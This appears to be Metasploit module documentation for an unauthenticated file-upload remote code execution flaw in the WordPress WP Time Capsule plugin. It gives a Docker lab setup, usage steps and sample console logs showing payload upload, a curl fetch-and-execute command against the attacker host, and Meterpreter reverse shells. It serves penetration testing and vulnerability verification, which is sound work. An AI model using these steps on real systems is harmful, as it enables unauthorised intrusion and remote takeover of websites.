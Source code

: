 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in the WordPress WP Time Capsule plugin, versions <= 1.22.21.
The vulnerability arises from an unauthenticated arbitrary file upload flaw due to improper validation logic in the plugin.

To replicate a vulnerable environment for testing:

1. Install WordPress using the provided Docker Compose configuration.
2. Download and install the [WP Time Capsule plugin v1.22.21](https://downloads.wordpress.org/plugin/wp-time-capsule.1.22.21.zip).
3. Verify that the plugin is activated and accessible on the local network.
4. Register for a WP Time Capsule account and connect the plugin to an external storage system (e.g., Google Drive, Dropbox).
5. Access `wp-admin/admin.php?page=wp-time-capsule-settings#wp-time-capsule-tab-advanced` to enable the **file upload functionality**
by clicking **"Click here to show upload options"**.
This action triggers the `prepare_file_upload_index_file_wptc` function, which creates the required `index.php` file
in the `/wp-tcapsule-bridge/upload/php/` directory, making the issue exploitable.

## Docker Compose Configuration

```yaml
version: '3.1'

services:
  wordpress:
    image: wordpress:6.3.2
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: root
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    mem_limit: 8G
    volumes:
      - wordpress:/var/www/html
      - ./custom.ini:/usr/local/etc/php/conf.d/custom.ini

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: root
      MYSQL_PASSWORD: dummy_password
      MYSQL_RANDOM_ROOT_PASSWORD: '1'
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:
```

Create a `custom.ini` file with the following content:

```ini
upload_max_filesize = 64M
post_max_size = 64M
```

## Verification Steps

1. Set up a WordPress instance with the WP Time Capsule plugin (version 1.22.21) using the provided `docker-compose.yml`.
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/wp_time_capsule_file_upload_rce`.
4. Set `RHOSTS` to the IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload and return a session.

## Options

No additional options are required beyond the default ones provided in Metasploit.

## Scenarios

### Successful Exploitation Against WordPress with WP Time Capsule 1.22.21

**Setup**:

- Local WordPress instance with WP Time Capsule version 1.22.21.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module:
```bash
use exploit/multi/http/wp_time_capsule_file_upload_rce
```
3. Set `RHOSTS` to the target's IP (e.g., `172.18.0.3`).
4. Configure other necessary options (e.g., `TARGETURI`).
5. Launch the exploit:
```bash
exploit
```

**Expected Results**:

With `php/meterpreter/reverse_tcp`:

```plaintext
msf6 exploit(multi/http/wp_time_capsule_file_upload_rce) > run http://172.18.0.3

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/wp-time-capsule/readme.txt
[*] Found version 1.22.21 in the plugin
[+] The target appears to be vulnerable. WP Time Capsule plugin appears to be vulnerable.
[*] Uploading payload: rJ.php with MIME type: message/http...
[+] Payload uploaded successfully. Parsing response...
[*] Triggering the payload at: http://172.18.0.3/wp-content/plugins/wp-time-capsule/wp-tcapsule-bridge/upload/php/files/rJ.php
[*] Sending stage (40004 bytes) to 172.18.0.3
[+] Deleted rJ.php
[*] Meterpreter session 3 opened (192.168.1.36:4444 -> 172.18.0.3:42434) at 2024-12-11 00:48:18 +0100

meterpreter > sysinfo 
Computer    : 0bd3f3b7102e
OS          : Linux 0bd3f3b7102e 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```plaintext
msf6 exploit(multi/http/wp_time_capsule_file_upload_rce) > run http://172.18.0.3

[*] Command to run on remote host: curl -so ./EHsooyPGi http://192.168.1.36:8080/LoPlnjEpeOexZNVppn6cAA; chmod +x ./EHsooyPGi; ./EHsooyPGi &
[*] Fetch handler listening on 192.168.1.36:8080
[*] HTTP server started
[*] Adding resource /LoPlnjEpeOexZNVppn6cAA
[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/wp-time-capsule/readme.txt
[*] Found version 1.22.21 in the plugin
[+] The target appears to be vulnerable. WP Time Capsule plugin appears to be vulnerable.
[*] Uploading payload: Ps.php with MIME type: application/zip...
[+] Payload uploaded successfully. Parsing response...
[*] Triggering the payload at: http://172.18.0.3/wp-content/plugins/wp-time-capsule/wp-tcapsule-bridge/upload/php/files/Ps.php
[*] Client 172.18.0.3 requested /LoPlnjEpeOexZNVppn6cAA
[*] Sending payload to 172.18.0.3 (curl/7.74.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.18.0.3
[+] Deleted Ps.php
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 172.18.0.3:50396) at 2024-12-11 01:06:52 +0100

meterpreter > sysinfo 
Computer     : 172.18.0.3
OS           : Debian 11.8 (Linux 5.15.0-126-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
